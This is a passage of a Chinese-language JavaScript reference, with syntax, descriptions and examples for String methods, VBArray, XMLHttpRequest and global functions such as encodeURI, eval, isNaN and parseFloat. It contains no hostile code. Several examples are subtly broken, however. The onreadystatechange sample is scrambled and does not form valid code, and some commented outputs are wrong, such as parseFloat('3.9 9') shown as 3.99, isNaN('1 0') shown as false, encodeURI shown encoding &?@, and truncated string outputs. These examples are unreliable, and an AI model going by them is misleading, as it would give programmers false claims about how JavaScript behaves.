**标准:** JavaScript 1.2+, JScript 5.5+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.5+, Netscape Navigator 6.0 (Gecko 0.6)+, Opera 7.0+, Safari 1.0+

## 语法

```
myStr.toLocaleLowerCase()
```

## 描述

返回字符串的版本，其中用户当前语言区域中所有字母均为小写。

## 示例

```html
<script type="text/javascript">
var myS = "This is a string literal. literally.";
document.write(myS.toLocaleLowerCase()); // this is a string literal. literally.
</script>
```

# String.toLocaleUpperCase()

**标准:** JavaScript 1.2+, JScript 5.5+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.5+, Netscape Navigator 6.0 (Gecko 0.6)+, Opera 7.0+, Safari 1.0+

## 语法

```
myStr.toLocaleUpperCase()
```

## 描述

返回字符串的版本，其中用户当前语言区域中所有字母均为大写。

## 示例

```html
<script type="text/javascript">
var myS = "This is a string literal. literally.";
document.write(myS.toLocaleUpperCase()); // THIS IS A STRING LITERAL. LITERALLY.
</script>
```

# String.toLowerCase()

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

## 语法

```
myStr.toLowerCase()
```

## 描述

返回字符串的版本，其中所有字母均为小写。

## 示例

```html
<script type="text/javascript">
var myS = "This is a string literal. literally.";
document.write(myS.toLowerCase()); // this is a string literal. literally.
</script>
```

# String.toSource()

**标准:** JavaScript 1.3+

**支持:** Firefox 1.0 (Gecko 1.7)+, Netscape Navigator 6.0 (Gecko 0.6)+

## 语法

```
myStr.toSource()
```

## 描述

返回一个表示对象源代码的字符串。

## 示例

```html
<script type="text/javascript">
var myS = "This is a string literal. literally.";
document.write(myS.toSource() + "<br />"); //new String("This is a string literal. literally.")
var myNS = eval(myS.toSource());
document.write(myNS); // This is a string literal.
</script>
```

# String.toString()

**标准:** JavaScript 1.1+, JScript 2.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 3.0+, Opera 3.0+, Safari 1.0+

## 语法

```
myStr.toString()
```

## 描述

返回一个表示该字符串的字符串。

## 示例

```html
<script type="text/javascript">
var myS = "This is a string literal. literally.";
document.write(myS.toString()); // This is a string literal.
</script>
```

# String.toUpperCase()

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

## 语法

```
myStr.toUpperCase()
```

## 描述

返回字符串的版本，其中所有字母均为大写。

## 示例

```html
<script type="text/javascript">
var myS = "This is a string literal. literally.";
document.write(myS.toUpperCase()); // THIS IS A STRING LITERAL. LITERALLY.
</script>
```

# String.valueOf()

**标准:** JavaScript 1.1+, JScript 2.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 3.0+, Opera 3.0+, Safari 1.0+

## 语法

```
myStr.valueOf()
```

## 描述

返回对象的原始值。

## 示例

```html
<script type="text/javascript">
var myS = "This is a string literal. literally.";
document.write(myS.valueOf()); // This is a string literal.
</script>
```

# VBArray

**标准:** JScript 3.0+  
**支持:** Internet Explorer 4.0+

## 语法

```javascript
var myArray = new VBArray(vba)
```

## 描述

提供对 Basic 数组的访问。

## 方法列表

## 示例

```html
<script type="VBScript">
Function CreateBArray()
    Dim arr(2, 2)
    arr(0, 0) = "Apple"
    arr(0, 1) = "Tree"
    arr(1, 0) = "House"
    arr(1, 1) = "Castle"
    CreateBArray = arr
End Function
</script>

<script type="JScript">
function aVBArray(vba) {
    var i, s;
    var a = new VBArray(vba);
    for (i = 1; i <= a.dimensions(); i++) {
        s = "The size of the Array is [";
        s += i + ", ";
        s += a.ubound(i) + "].<BR>";
    }
    return(s); // The size of the Array is [2,2]
}
</script>

<script language="jscript">
    document.write(aVBArray(CreateBArray()));
</script>
```

# VBArray.dimensions()

**标准:** JScript 3.0+  
**支持:** Internet Explorer 4.0+

## 语法

```javascript
VBArray.dimensions()
```

## 描述

返回 Visual Basic VBArray 中的维度数量。

## 示例

```html
<script type="VBScript">
Function CreateBArray()
    Dim arr(2, 2)
    arr(0, 0) = "Apple"
    arr(0, 1) = "Tree"
    arr(1, 0) = "House"
    arr(1, 1) = "Castle"
    CreateBArray = arr
End Function
</script>

<script type="JScript">
function aVBArray(vba) {
    var i, s;
    var a = new VBArray(vba);
    for (i = 1; i <= a.dimensions(); i++) {
        s = "The size of the Array is [";
        s += i + ", ";
        s += a.ubound(i) + "].<BR>";
    }
    return(s); // The size of the Array is [2,2]
}
</script>

<script language="jscript">
    document.write(aVBArray(CreateBArray()));
</script>
```

# VBArray.getItem()

**标准:** JScript 3.0+  
**支持:** Internet Explorer 4.0+

## 语法

```
myVBArray.getItem(dimension1[, dimension2, ...], dimensionN)
```

## 描述

返回指定索引处的项。

## 示例

```html
<head>
<SCRIPT LANGUAGE="VBScript">
<!--
Function CreateAVBArray()
    Dim arr(2, 2)
    arr(0, 0) = "Apple"
    arr(0, 1) = "Tree"
    arr(1, 0) = "House"
    arr(1, 1) = "Castle"
    CreateAVBArray = arr
End Function
-->
</SCRIPT>

<SCRIPT LANGUAGE="JScript">
<!--
function writeOutContents(vba)
{
    var s = "";
    var a = new VBArray (vba);
    for (i = 0; i < 2; i++)
        for (v = 0; v < 2; v++) {
            s += a.getItem(i,v) + ",";
        }
    return(s); // Apple, Tree, House, Castle,
}
-->
</SCRIPT>
</HEAD>

<BODY>
<SCRIPT language="jscript">
    document.write(writeOutContents(CreateAVBArray()));
</SCRIPT>
</BODY>
```

# VBArray.lbound()

**标准:** JScript 3.0+  
**支持:** Internet Explorer 4.0+

## 语法

```javascript
myVBArray.lbound(dimension)
```

## 描述

返回数组指定维度上使用的最低索引值。

## 示例

```html
<HEAD>
<SCRIPT LANGUAGE="VBScript">
<!--
Function CreateAVBArray()
    Dim arr(2, 2)
    arr(0, 0) = "Apple"
    arr(0, 1) = "Tree"
    arr(1, 0) = "House"
    arr(1, 1) = "Castle"
    CreateAVBArray = arr
End Function
-->
</SCRIPT>
<SCRIPT LANGUAGE="JScript">
<!--
function writeoutLbound(vba)
{
    var a = new VBArray(vba);
    return a.lbound(1);
}
-->
</SCRIPT>
</HEAD>

<BODY>
<SCRIPT language="jscript">
    document.write(writeoutLbound(CreateAVBArray()));
</SCRIPT>
</BODY>
```

# VBArray.toArray()

**标准:** JScript 3.0+  
**支持:** Internet Explorer 4.0+

## 语法

```javascript
myVBArray.toArray()
```

## 描述

将 VB 安全 数组转换为标准的 JScript 数组。

## 示例

```html
<HEAD>
<SCRIPT LANGUAGE="VBScript">
<!--
Function CreateAVBArray()
    Dim arr(4)
    arr(0) = "Apple"
    arr(1) = "Tree"
    arr(2) = "House"
    arr(3) = "Castle"
    CreateAVBArray = arr
End Function
-->
</SCRIPT>
<SCRIPT LANGUAGE="JScript">
<!--
function writeoutArray(vba)
{
    var a = new VBArray(vba);
    var b = a.toArray( );
    document.write(b.toString( )); // Apple,Tree,House,Castle
}
-->
</SCRIPT>
</HEAD>

<BODY>
<SCRIPT language="jscript">
    writeoutArray(CreateAVBArray( ));
</SCRIPT>
</BODY>
```

# VBArray.ubound()

**标准:** JScript 3.0+  
**支持:** Internet Explorer 4.0+

## 语法

```javascript
myVBArray.ubound(dimension)
```

## 描述

返回数组指定维度上的最高索引值。

## 示例

```html
<HEAD>
<SCRIPT LANGUAGE="VBScript">
<!--
Function CreateAVBArray()
    Dim arr(2, 2)
    arr(0, 0) = "Apple"
    arr(0, 1) = "Tree"
    arr(1, 0) = "House"
    arr(1, 1) = "Castle"
    CreateAVBArray = arr
End Function
-->
</SCRIPT>
<SCRIPT LANGUAGE="JScript">
<!--
function writeoutbound(vba)
{
    var a = new VBArray(vba);
    return a.ubound(1);
}
-->
</SCRIPT>
</HEAD>

<BODY>
<SCRIPT language="jscript">
    document.write(writeoutbound(CreateAVBArray( ) ));
</SCRIPT>
</BODY>
```

# XMLHttpRequest

**标准:** JavaScript 1.5+, JScript 5.0+  
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.0+, Netscape Navigator 7.0 (Gecko 1.0.1)+, Opera 8.0+, Safari 1.0+

## 语法

```javascript
// 非 IE 浏览器：
var req = new XMLHttpRequest();
// JScript (IE)
req = new ActiveXObject("Microsoft.XMLHTTP");
```

## 描述

用作 AJAX（异步 JavaScript 和 XML）的基础，用于在 Web 服务器和浏览器之间传输文本和 XML。

## 示例

```javascript
<script type="text/javascript">
var XHR = function() {
    if( typeof XMLHttpRequest == "undefined" ) {
        var xhrNames = ["MSXML2.XMLHTTP.6.0", "MSXML2.XMLHTTP.5.0", "MSXML2.XMLHTTP.3.0", "MSXML2.XMLHTTP", "Microsoft.XMLHTTP"];
        for (var i = 0; i < xhrNames.length; i++) {
            try {
                var XHR = new ActiveXObject(xhrNames[i]);
            } catch(e) {}
        }
        if (typeof XHR != undefined)
            return XHR;
        else
            new Error("Ajax not supported!");
    } else {
        return new XMLHttpRequest( );
    }
}
// 当请求成功时将调用此函数
function callbackFunction(response) {
    document.write(response);
}
// 获取 XHR 对象的实例
var request = XHR();
// 执行一个 POST 请求
request.open("POST", "data.php", true);
request.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
request.onreadystatechange = function() {
    if (request.readyState == 4 && request.status == 200) {
        if (request.responseText) {
            callbackFunction(request.responseText);
        }
    }
}
// 用于 AJAX 的变量
function getReference() {
    var request = null;
    if (typeof XMLHttpRequest == "undefined") {
        var xhrNames = ["MSXML2.XMLHTTP.6.0", "MSXML2.XMLHTTP.5.0", "MSXML2.XMLHTTP.3.0", "MSXML2.XMLHTTP", "Microsoft.XMLHTTP"];
        for (var i = 0; i < xhrNames.length; i++) {
            try {
                request = new ActiveXObject(xhrNames[i]);
                break;
            } catch (e) {}
        }
        if (!request) {
            throw new Error("This browser does not support AJAX.");
        }
    } else {
        request = new XMLHttpRequest();
    }
    return request;
}
// 用于 AJAX 的变量
function callbackFunction(response) {
    document.write(response);
}
// 获取 XHR 对象的实例
var request = getReference();
// 执行一个 POST 请求
request.open("POST", "#", true);
request.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
request.onreadystatechange = function() {
    if (request.readyState == 4 && request.status == 200) {
        if (request.responseText) {
            callbackFunction(request.responseText);
        }
    }
};
request.send("");
</script>
```

# XMLHttpRequest.onreadystatechange

**标准:** JavaScript 1.5+, JScript 5.0+  
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.0+, Netscape Navigator 7.0 (Gecko 1.0.1)+, Opera 8.0+, Safari 1.0+

## 语法

```javascript
myXHRInstance.onreadystatechange
```

## 描述

指向在状态变化时触发的事件处理程序的引用。

## 示例

```javascript
<script type="text/javascript">
// 用于 AJAX 的变量
request.onreadystatechange = function() {
// 在每次状态改变时（当请求完成时）调用此函数
function callbackFunction(response) {
    document.write(response);
}
// 获取 XHR 对象的实例
var request = getReference();
// 执行一个 POST 请求
request.open("POST", "#", true);
request.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    if (request.readyState == 4 && request.status == 200) {
        if (request.responseText) {
            callbackFunction(request.responseText);
        }
    }
};
request.send("");
</script>
```

# XMLHttpRequest.readyState

**标准:** JavaScript 1.5+, JScript 5.0+  
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.0+, Netscape Navigator 7.0 (Gecko 1.0.1)+, Opera 8.0+, Safari 1.0+

## 语法

```javascript
myXHRInstance.readyState
```

## 描述

包含 XMLHttp 对象的数值状态。

## 示例

```javascript
<script type="text/javascript">
// 用于 AJAX 的变量
request.onreadystatechange = function() {
    /*
    readyState 值：
    * 0 = 未初始化 -尚未调用 open()。
    * 1 = 已打开 - 尚未调用 send()。
    * 2 = 已发送 - 已调用 send()，头部和状态可用。
    * 3 = 接收中 - 正在下载，responseText 包含部分数据（此功能在 IE [2] 中不可用）。
    * 4 = 已加载 - 完成。
    */
    if (request.readyState == 4 && request.status == 200) {
        if (request.responseText) {
            callbackFunction(request.responseText);
        }
    }
};
</script>
```

# XMLHttpRequest.responseBody

**标准:** JScript 5.0+  
**支持:** Internet Explorer 5.0+

## 语法

```javascript
myXHRInstance.responseBody
```

## 描述

以二进制编码字符串形式表示的响应。

## 示例

```javascript
<script type="text/javascript">
if(typeof ActiveXObject != "undefined") {
    xmlhttp = new ActiveXObject("MSXML2.XMLHTTP");
    xmlhttp.open("GET", "#", false);
    xmlhttp.send(null);
    document.write(xmlhttp.responseBody);
} else {
    document.write("This browser does not support Microsoft ActiveXObjects.")
}
</script>
```

# XMLHttpRequest.responseText

**标准:** JavaScript 1.5+, JScript 5.0+  
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.0+, Netscape Navigator 7.0 (Gecko 1.0.1)+, Opera 8.0+, Safari 1.0+

## 语法

`myXHRInstance.responseText`

## 描述

字符串格式的响应。

## 示例

```html
<script type="text/javascript">
// 由于冗余，未包含获取 XHR 引用的代码
// 此函数将在 readystate 改变时被调用（即请求完成时）
function callbackFunction(response) {
    document.write(response);
}
// 获取 XHR 对象的实例
var request = getXHRReference();
// 执行 POST 请求
request.open("POST", "#", true);
request.onreadystatechange = function() {
    if (request.readyState == 4 && request.status == 200) {
        if (request.responseText) {
            callbackFunction(request.responseText);
        }
    }
};
request.send("");
</script>
```

# XMLHttpRequest.responseXML

**标准:** JavaScript 1.5+, JScript 5.0+  
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.0+, Netscape Navigator 7.0 (Gecko 1.0.1)+, Opera 8.0+, Safari 1.0+

## 语法

`myXHRInstance.responseXML`

## 描述

XML 文档格式的响应。

## 示例


```html
<script type="text/javascript">

// 无论浏览器如何，此函数都会返回一个 XHR 对象
function getXHRReference() {
    // 为 IE 5.x-6.x 提供 XMLHttpRequest 类：
    if( typeof XMLHttpRequest == "undefined" ) XMLHttpRequest = function() {
        try { return new ActiveXObject("Msxml2.XMLHTTP.6.0") } catch(e) {}
        try { return new ActiveXObject("Msxml2.XMLHTTP.3.0") } catch(e) {}
        try { return new ActiveXObject("Msxml2.XMLHTTP") } catch(e) {}
        try { return new ActiveXObject("Microsoft.XMLHTTP") } catch(e) {}
        throw new Error("This browser does not support XMLHttpRequest.")
    }
    else
        return new XMLHttpRequest ( ); // 其他浏览器
}

// 请求成功时将调用此函数
function callbackFunction(response) {
    // 将响应视为 XML 文档
    var xmlDoc=response.documentElement;
    document.write("Company Name: " + xmlDoc.getElementsByTagName("compname")[0].childNodes[0].nodeValue + "<br />");
    document.write("Contact Name: " + xmlDoc.getElementsByTagName("contname")[0].childNodes[0].nodeValue + "<br />");
    document.write("Address: " + xmlDoc.getElementsByTagName("address")[0].childNodes[0].nodeValue + "<br />");
    document.write("City: " + xmlDoc.getElementsByTagName("city")[0].childNodes[0].nodeValue + "<br />");
    document.write("Country: " + xmlDoc.getElementsByTagName("country")[0].childNodes[0].nodeValue);
}

// 获取 XHR 对象的实例
var request = getXHRReference ( );
// 执行 POST 请求
request.open("POST", "/quicktest/data", true);
request.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
request.onreadystatechange = function() {
  if (request.readyState == 4 && request.status == 200) {
    if (request.responseXML) {
      callbackFunction(request.responseXML);
    }
  }
};
request.send("vars=none=yes"); // 我们将发送变量作为数据
</script>
```

## XMLHttpRequest.status

**标准:** JavaScript 1.5+, JScript 5.0+ **支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.0+, Netscape Navigator 7.0 (Gecko 1.0.1)+, Opera 8.0+, Safari 1.0+

### 语法

`myXHRInstance.status`

### 描述

返回请求的 HTTP 码。

### 示例

```html
<script type="text/javascript">

// 由于冗余，未包含获取 XHR 引用的代码
request.onreadystatechange = function() {
    /*
    常见状态码：
    200 = OK
    403 = Forbidden
    404 = Not found
    500 = Server error
    */
    if (request.readyState == 4 && request.status == 200) {
        if (request.responseText) {
            callbackFunction(request.responseText);
        }
    }
};
</script>
```

## XMLHttpRequest.statusText

**标准:** JavaScript 1.5+, JScript 5.0+ **支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.0+, Netscape Navigator 7.0 (Gecko 1.0.1)+, Opera 8.0+, Safari 1.0+

### 语法

`myXHRInstance.statusText`

### 描述

返回字符串格式的 HTTP 状态。例如：Not 或 OK。

### 示例

```html
<script type="text/javascript">

// 由于冗余，未包含获取 XHR 引用的代码
request.onreadystatechange = function() {
    /*
    常见状态码及其对应的 statusText 值：
    200 = OK
    403 = Forbidden
    404 = Not found
    500 = Server error
    */
    if (request.readyState == 4 && request.statusText == "OK") {
        if (request.responseText) {
            callbackFunction(request.responseText);
        }
    }
};
</script>
```

## XMLHttpRequest.abort()

**标准:** JavaScript 1.5+, JScript 5.0+ **支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.0+, Netscape Navigator 7.0 (Gecko 1.0.1)+, Opera 8.0+, Safari 1.0+

### 语法

`myXHRInstance.abort()`

### 描述

如果有一个待挂的请求，则取消该请求。

### 示例

```html
<script type="text/javascript">

// 假设我们要取消一个现有的请求
// 首先检查它是否存在
if (request.status) {
    // 现在我们取消它
    request.abort();
}
</script>
```

## XMLHttpRequest.getAllResponseHeaders()

**标准:** JavaScript 1.5+, JScript 5.0+ **支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.0+, Netscape Navigator 7.0 (Gecko 1.0.1)+, Opera 8.0+, Safari 1.0+

### 语法

`myXHRInstance.getAllResponseHeaders()`

### 描述

返回字符串格式的完整 HTTP 头部集。

### 示例

```html
<script type="text/javascript">

// 为了冗余，未包含 getXHRReference 代码...
// ..
// ..
// 获取 XHR 对象的实例
var request = getXHRReference();
// 执行 POST 请求
request.open("POST", "/quicktest/data", true);
request.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
request.onreadystatechange = function() {
  if (request.readyState == 4 && request.status == 200) {
    if (request.responseText) {
        document.write(request.getAllResponseHeaders());
        /*
        POST http://localhost:3000/quicktest/data
        http://localhost:3000/quicktest/data
        330ms  quicktest (line 32)
        Connection: close Date: Sun, 05 Oct 2008 00:49:11 GMT Set-Cookie: _ref_
session=de2cb1e9fead793c8968f28ccfea5cc7; path=/ Status: 200 OK X-Runtime: 0.00223
        Eag: "0b2fbdb750a62758027fa2923613c0cc" Cache-Control: private, max-age=0,
        must-evalidate Server: Mongrel 1.1.5 Content-Type: text/xml; charset=utf-8
        Content-Length: 225
        */
    }
  }
};
request.send("");

</script>
```

## XMLHttpRequest.getResponseHeader(headerLabel)

**标准:** JavaScript 1.5+, JScript 5.0+ **支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.0+, Netscape Navigator 7.0 (Gecko 1.0.1)+, Opera 8.0+, Safari 1.0+

### 语法

`myXHRInstance.getResponseHeader(headerName)`

### 描述

返回指定的 HTTP 头部的值。

### 示例

```html
<script type="text/javascript">

// 为了冗余，未包含 getXHRReference...
// ..
// ..
// 获取 XHR 对象的实例
var request = getXHRReference ( );
// 执行 POST 请求
request.open("POST", "/quicktest/data", true);
request.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
request.onreadystatechange = function() {
  if (request.readyState == 4 && request.status == 200) {
    if (request.responseText) {
      document.write("Etag: " + request.getResponseHeader("Etag"));
      /*
      Etag: "0b2fbdb750a62758027fa2923613c0cc"
      */
    }
  }
};
request.send("vars=none&cool=yes"); // We′ll send a couple dummy variables as data
</script>
```

## XMLHttpRequest.open(method, url [, asyncFlag [, userName [, password]]])

**标准：** `JavaScript 1.5+, JScript 5.0+`
**支持：** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.0+, Netscape Navigator 7.0 (Gecko 1.0.1)+, Opera 8.0+, Safari 1.0+

### 语法

`myXHRInstance.open(method, URL)`

`myXHRInstance.open(method, URL, async, userName, password)`

### 描述

指定请求的方法、URL 以及其他可选属性。

### 示例

```html
<script type="text/javascript">

// 为了避免冗余未包含 getXHRReference

// 获取 XHR 对象的实例
var request = getXHRReference();

// 执行一个 POST 请求
request.open("POST", "/quicktest/data", true);
request.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
request.send("vars=none&cool=yes"); // 我们将发送几个虚拟变量作为数据
</script>
```

## XMLHttpRequest.send(content)

**标准：** `JavaScript 1.5+, JScript 5.0+`
**支持：** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.0+, Netscape Navigator 7.0 (Gecko 1.0.1)+, Opera 8.0+, Safari 1.0+

### 语法

`myXHRInstance.send(content)`

### 描述

发送请求。Content 可以是字符串或对文档的引用。

### 示例

```html
<script type="text/javascript">

// 为了避免冗余未包含获取 XHR 引用的代码
// 获取 XHR 对象的实例
var request = getXHRReference();

// 执行一个 POST 请求
request.open("POST", "#", true);
request.send("var1=true&var2=false"); // 发起请求
</script>
```

## XMLHttpRequest.setRequestHeader(label, value)

**标准：** `JavaScript 1.5+, JScript 5.0+`
**支持：** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.0+, Netscape Navigator 7.0 (Gecko 1.0.1)+, Opera 8.0+, Safari 1.0+

### 语法

`myXHRInstance.setRequestHeader(label, value)`

### 描述

向要发送的 HTTP 头中添加新的标签值对。

### 示例

```html
<script type="text/javascript">

// 为了避免冗余未包含 getXHRReference
// 获取 XHR 对象的实例
var request = getXHRReference( );

// 执行一个 POST 请求
request.open("POST", "/quicktest/data", true);
request.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
request.send("vars=none&cool=yes"); // 我们将发送几个虚拟变量作为数据
</script>
```

## JavaScript 全局属性

除了全局对象外，还有几个简单的全局属性可供程序使用。

## 属性列表


## Infinity

**标准：** `JavaScript 1.3+, JScript 3.0+, ECMAScript 1.0+`
**支持：** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 3.0+, Safari 1.0+

### 语法

`Infinity`

### 描述

一个表示无穷大的数字。`Infinity` 和 `NaN` 都是 `Number` 对象的成员。

### 示例

```html
<script>
var myVal = Infinity*Infinity;
document.write(myVal + "<br />"); // Infinity
myVal = 1/Infinity; // 应该是零
document.write(myVal); // 0
</script>
```

## NaN

**标准：** `JavaScript 1.3+, JScript 3.0+, ECMAScript 1.0+`
**支持：** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 3.0+, Safari 1.0+

### 语法

`NaN`

### 描述

返回一个表示“内容不是数字”的特殊值。`Infinity` 和 `NaN` 都是 `Number` 对象的成员。

### 示例

```html
<script>
document.write(NaN); // NaN
</script>
```

## undefined

**标准：** `JavaScript 1.3+, JScript 5.5+, ECMAScript 1.0+`
**支持：** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.5+, Netscape Navigator 4.0+, Opera 3.0+, Safari 1.0+

### 语法

`undefined`

### 描述

一个表示标识符未定义的值。这是 `Undefined` 类型的唯一成员。

### 示例

```html
<script>
var x;
if (x === undefined) {
  document.write("x is undefined. <br />"); // x is undefined
}
x = 1;
if (x === undefined) {
  // 此代码不会执行
  document.write("x is still undefined."); // 不执行
}
</script>
```

## JavaScript 全局函数

程序还可以使用几个全局函数。其中大多数函数都涉及为了某种目的对字符串进行解析，其中几个是用于准备字符串以作为 URI 使用。关于这些函数的更多解释，请参阅第 6 章：全局对象和对象对象。

## 方法列表

 

## decodeURI(string)

**标准：** `JavaScript 1.3+, JScript 5.5+, ECMAScript 1.0+`
**支持：** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.5+, Netscape Navigator 4.0+, Opera 3.0+, Safari 1.0+

### 语法

`var myString = decodeURI(encodedString)`

### 描述

返回编码的统一资源标识符 (URI) 字符串的未编码值。

### 示例

```html
<script>
var myString="£€&?@ And this is some text";
document.write(encodeURI(myString) + "<br />"); // %C2%A3%E2%AC%26%3F%40%20And%20this%20is%20some%20text
document.write(decodeURI(encodeURI(myString))); // £€&?@ And this is some text
</script>
```

## decodeURIComponent(string)

**标准：** `JavaScript 1.3+, JScript 5.5+, ECMAScript 1.0+`
**支持：** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.5+, Netscape Navigator 4.0+, Opera 3.0+, Safari 1.0+

### 语法

`var myString = decodeURIComponent(encodedString)`

### 描述

返回编码的统一资源标识符 (URI) 字符串中编码部分的未编码值。

### 示例

```html
<script>
var myString="£€&?@ And this is some text";
document.write(encodeURIComponent(myString) + "<br />"); // %C2%A3%E2%AC%26%3F%40%20And%20this%20is%20some%20text
document.write(decodeURIComponent(encodeURIComponent(myString))); // £€&?@ And this is some text
</script>
```

## encodeURI(string)

**标准：** `JavaScript 1.3+, JScript 5.5+, ECMAScript 1.0+`
**支持：** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.5+, Netscape Navigator 4.0+, Opera 3.0+, Safari 1.0+

### 语法

`var myEncodedString = encodeURI(myString)`

### 描述

通过对保留字符进行编码，将字符串转换为有效的统一资源标识符 (URI)。

### 示例

```html
<script>
var myString="£€&?@ And this is some text";
document.write(encodeURI(myString) + "<br />"); // %C2%A3%E2%AC%26%3F%40%20And%20this%20is%20some%20text
document.write(decodeURI(encodeURI(myString))); // £€&?@ And this is some text
</script>
```

## encodeURIComponent(string)

**标准：** `JavaScript 1.3+, JScript 5.5+, ECMAScript 1.0+`
**支持：** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.5+, Netscape Navigator 4.0+, Opera 3.0+, Safari 1.0+

### 语法

`var myEncodedString = encodeURIComponent(myString)`

### 描述

通过对保留字符进行编码，将字符串转换为有效的统一资源标识符 (URI) 之一。

### 示例

```html
<script>
var myString="£€&?@ And this is some text";
document.write(encodeURIComponent(myString) + "<br />"); // %C2%A3%E2%AC%26%3F%40%20And%20this%20is%20some%20text
document.write(decodeURIComponent(encodeURIComponent(myString))); // £€&?@ And this is some text
</script>
```

## escape(string)

**标准：** `JavaScript 1.0+, JScript 1.0+`
**支持：** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法

`var myEncodedString = escape(myString)`

### 描述

通过将所有特殊或保留字符替换为相应的等效字符来编码字符串。`escape()` 不是 Unicode 安全的。

### 示例

```html
<script>
var myString="£€&?@ And this is some test text";
document.write(escape(myString) + "<br />");
// %A3%u20AC%26%3F@%20And%20this%20is%20some%20test%20text
document.write(unescape(escape(myString)));
// £€&?@ And this is some test text
</script>
```

## eval(string)

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法

// 基于 Gecko 的引擎 (Firefox)
```javascript
eval(string[, object])
```

// 其他所有 (JScript, Rhino, JavaScriptCore, V8, 等)
```javascript
eval(string)
```

### 描述

评估 JavaScript 源代码并执行它。

### 示例

```html
<script>
var mySimpleExpression = "document.write('This is a test');";
eval(mySimpleExpression); // This is a test
var myExpression = new String("10*10");
eval(myExpression.toString());
</script>
```

## isFinite(numval)

**标准:** JavaScript 1.1+, JScript 3.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 3.0+, Safari 1.0+

### 语法

```javascript
var myBool = isFinite(myNum)
```

### 描述

返回一个布尔值，指示提供的数字是否为有限值。

### 示例

```html
<script>
var myNum = 10;
if (isFinite(myNum)) {
    // 这将执行
    document.write(myNum + " was finite. <br />");
}
var myNum2 = Infinity;
if (isFinite(myNum2)) {
    // 这不会执行
    document.write(myNum2 + " was finite. <br />");
}
</script>
```

## isNaN(numval)

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法

```javascript
var boolResult = isNaN(numval)
```

### 描述

确定传递的值是否会被视为数字。

### 示例

```html
<script>
document.write(isNaN(10) + "<br /> "); // false
document.write(isNaN("1 0") + "<br /> "); // false
document.write(isNaN("ABCD ") + "<br /> "); // true
document.write(isNaN("25CC ") + "<br /> "); // true
document.write(isNaN(Math.sqrt(-1))); // true
</script>
```

## parseFloat(string)

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Opera 3.0+, Safari 1.0+

### 语法

```javascript
var myFPNum = parseFloat(numstring)
```

### 描述

从表示数字的字符串中返回浮点数。

### 示例

```html
<script>
document.write(parseFloat("3.9 9") + "<br /> "); // 3.99
document.write(parseFloat("399e- 2") + "<br /> "); // 3.99
document.write(parseFloat("0.0399E+ 2") + "<br /> "); // 3.99
var x = "3.9 9";
document.write(parseFloat(x) + "<br /> "); // 3.99
document.write(parseFloat("3.99 plus point-o-one would be four ") + "<br /> ");
// 3.99
</script>
```

## parseInt(string)

